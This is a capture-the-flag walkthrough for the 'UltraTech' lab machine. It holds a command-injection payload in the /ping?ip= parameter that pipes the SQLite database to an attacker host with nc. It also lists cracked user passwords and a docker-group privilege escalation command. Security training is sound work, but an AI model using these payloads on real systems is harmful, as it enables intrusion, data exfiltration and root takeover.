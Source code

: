 # UltraTech

--------------------------------------------------------------------

## GIVEN INFO

**IP Address**: 10.10.248.157

--------------------------------------------------------------------

## PROCEDURE

-sV: probe open ports to determine service/version info
-p-: scan all ports
```
nmap -sV -p- 10.10.248.157
```

![1.1](./imgs/1.1.png)

**EXPOSED PORT (SERVICE)**:<br>
    21 (ftp vsftpd 3.0.3)<br>
    22 (ssh OpenSSH 7.6p1),<br>
    8081 (http node.js Express Framework),<br>
    31331 (http Apache httpd 2.4.29)

8081 is an api

Enumerate hidden directories on webserver on port 8081
```
dirb http://10.10.248.157:8081 /usr/share/wordlists/dirb/common.txt
```

Found /auth & /ping which are the routes

Enumerate hidden directories on webserver on port 31331
```
dirb http://10.10.248.157:31331 /usr/share/wordlists/dirb/common.txt
```

Found robots.txt, /images, /css, /javascript, /js

/utech_sitemap.txt in robots.txt

Found /, /index.html, /what.html, /partners.html

http://10.10.248.157:31331/partners.html is a login page

The http://10.10.248.157:31331/js/api.js file is run when user tries to login<br>
It runs the /ping?ip=${window.location.hostname}

We can exploit the ping command to get the database
```
nc -lnvp 4444
http://10.10.248.157:8081/ping?ip=`nc 10.6.1.136 4444 < utech.db.sqlite`
```

Found 2 login<br>
**USERS**: admin, r00t<br>
**PASSWORD HASHES**: 0d0ea5111e3c1def594c1684e3b9be84, f357a0c52799563c7c7b76c1e7543a32 

Cracked MD5 hash on https://hashes.com/en/decrypt/hash<br>
**admin USER PASSWORD**: mrsheafy<br>
**r00t USER PASSWORD**: n100906

```
ssh r00t@10.10.248.157
chmod +x linpeas
./linpeas
```

r00t is a part of the docker group which we can exploit

Found on https://gtfobins.github.io/gtfobins/docker/
```
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

**FIRST 9 OF SSH KEY**: MIIEogIBA